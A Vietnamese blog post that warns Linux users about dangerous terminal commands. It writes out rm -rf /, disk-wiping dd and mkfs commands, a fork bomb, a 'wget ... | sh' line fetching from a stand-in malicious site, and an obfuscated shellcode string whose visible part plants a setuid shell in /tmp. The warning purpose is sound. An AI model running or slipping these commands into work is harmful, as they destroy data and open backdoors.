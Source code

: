 ```yaml
---
thumbnail: "2020525-Caution-Command-Terminal.png"
layout: "post"
title: "Top các câu lệnh nguy hiểm trên linux ban cần chú ý khi sử dụng"
excerpt: "Như bạn đã biết, các câu lệnh trong Terminal thực sự rất hữu dụng và giúp cho người sử dụng có thể thao tác cực nhanh mà không cần phải qua GUI rườm rà."
author: Panadora
category: [unixlinux, terminal]
permalink: "/top-cac-cau-lenh-nguy-hiem-tren-linux-ban-can-chu-y-khi-su-dung"
---
```


<center><img class="img-thumbnail" width="550" src="{{site.url}}/image/2020525-Caution-Command-Terminal.png"></center><br>

Như bạn đã biết, các câu lệnh trong Terminal thực sự rất hữu dụng và giúp cho người sử dụng có thể thao tác cực nhanh mà không cần phải qua GUI rườm rà. Tuy nhiên, nó cũng có nhiều rủi ro nếu như bạn sử dụng nó sai cách hoặc bạn không hề biết bạn đang thực thi câu lệnh có độ nguy hiểm như thế nào đối với hệ thống.

Bài viết này sẽ sơ lược qua các câu lệnh cực kỳ nguy hiểm cho Linux, nếu các câu lệnh này được thực thi, bạn có thể bị mất toàn bộ dữ liệu trong máy hoặc hệ điều hành sẽ không bao giờ khởi động được nữa.

**Xin lưu ý một lần nữa, bài viết này chỉ có tính chất tham khảo, hạn chế hoặc không chạy các câu lệnh bên dưới để tránh tạo rủi ro gây mất mát dữ liệu hoặc hỏng HĐH**

**Lệnh: rm -rf**

Đây là 1 trong những cách nhanh nhất để xoá file và folder, nhưng nếu nhập sai hoặc bạn không hiểu bản chất của câu lệnh này là gì thì sẽ gây ảnh hưởng nặng nề đến hệ thống.

Một số cách sử dụng câu lệnh này như bên dưới:

**`rm <tên file>`** : xoá file cụ thể.<br>
**`rm -r`** : xoá toàn bộ folder, kể cả folder rỗng.<br>
**`rm -f`** : bắt buộc xóa file (f ở đây là từ force). Lệnh này bỏ qua các tập tin ko tồn tại và sẽ không hiện ra cảnh báo trước khi xoá. (vì là bắt buộc nên xoá các file **write protected** và **read only** luôn).<br>
**`rm -rf /`** : buộc xoá tất cả mọi thứ trong folder gốc, kể cả folder được bảo vệ.<br>
**`rm -rf *`** : buộc xoá tất cả mọi thứ trong folder bạn đang làm việc.<br>
**`rm -rf .`** : buộc xoá tất cả folder hiện tại và sub-folder.

**Lệnh: `<CÂU LỆNH> >` /dev/sda**

Câu lệnh bên trên sẽ ghi output của **`<CÂU LỆNH>`** được thực hiện lên ổ cứng (ở đây là /DEV/SDA) và sẽ ghi đè và xóa sổ toàn bộ dữ liệu có sẵn trong đó.

**Lệnh: `:(){:|:&};:`**

Lệnh này thực chất là 1 quả bom, nó thực thi bằng việc định nghĩa hàm ':' và hàm này tự gọi lại chính nó (đệ quy). Nó sẽ sao chép chính bản thân nó nhiều lần và liên tục, gây tràn bộ nhớ hệ thống, dẫn tới đóng băng hệ thống.

**Lệnh: `mv <TÊN FOLDER> /dev/null`**

Nếu bạn thực thi lệnh này, nó sẽ di chuyển **`<TÊN FOLDER>`** đến **`/dev/null`**. Mà nơi này chính là một "lỗ đen" đúng nghĩa. Mọi dữ liệu di chuyển đến đây đều biến mất mãi mãi.

**Lệnh: `wget http://trang_chua_ma_doc -O- | sh`**

Câu lệnh ở trên sẽ tải script từ một trang chữa mã độc và thực thi với lệnh SH

Hãy chắc chắn bạn tin tưởng với trang web ở trong câu lệnh này, đừng copy, paste và thực thi vô tội vạ các lệnh ở trên mạng.

**Lệnh: `mkfs.ext3 /dev/sda`**

Lệnh này thì sẽ format lại toàn bộ dữ liệu trong ổ cứng, dữ liệu chắn chắn sẽ biến mất hoàn toàn khi thực thi nó.

Một số câu lệnh tương tự dùng để format ổ cứng (cần quyền sudo)

- mkfs<br>
- mkfs.ext3<br>
- mkfs.bfs<br>
- mkfs.ext2<br>
- mkfs.minix<br>
- mkfs.msdos<br>
- mkfs.reiserfs<br>
- mkfs.vfat<br>

Riêng mkfs.cramfs tác dụng tương tự như không cần sudo.

**Lệnh `> <FILE>`**

Xoá toàn bộ nội dung của **`<FILE>`**.

**Lệnh: `^foo^bar`**

được sử dụng để chỉnh sửa lệnh chạy trước đó mà không cần phải gõ lại toàn bộ câu lệnh. Nhưng có thể gây rắc rối nếu bạn không kiểm tra kỹ lưỡng thay đổi trong câu lệnh ban đầu.

**Lệnh: `dd if=/dev/random of=/dev/sda`**

Câu lệnh trên sẽ xóa sạch ổ cứng và ghi dữ liệu rác vào. Tất nhiên! Hệ thống của bạn sẽ bị hỏng hoàn toàn và khả năng phục hồi gần như = 0

**NHỮNG CÂU LỆNH NGUY HIỂM ĐÃ ĐƯỢC MÃ HOÁ**

`char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;`

Hẳn bạn nghĩ lệnh trên không gây ra vấn đề gì, nhưng không! Lệnh bên trên sẽ xoá phân vùng gốc ổ cứng của bạn.

**Bạn tuyệt đối không được copy, paste và thực thi một trong các câu lệnh không rõ nguồn gốc từ Internet để tránh những thiệt hại gây ra cho Linux do sự bất cẩn của bản thân mình.**

~~ Bài viết có kham thảo từ các nguồn uy tín ~~
P/s: nếu mình có sai sót gì trong bài viết thì mong các bạn góp ý để mình có thể chỉnh sửa bài viết và hoàn thiện nó một cách tốt nhất nhé :)

Nguồn: [Linux Team Việt Nam (Official Group) Post 1](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856171831568486/)<br>
Nguồn: [Linux Team Việt Nam (Official Group) Post 2](https://www.facebook.com/groups/linuxteamvietnam2018/permalink/856981638154172/)

<hr style="background: #000;">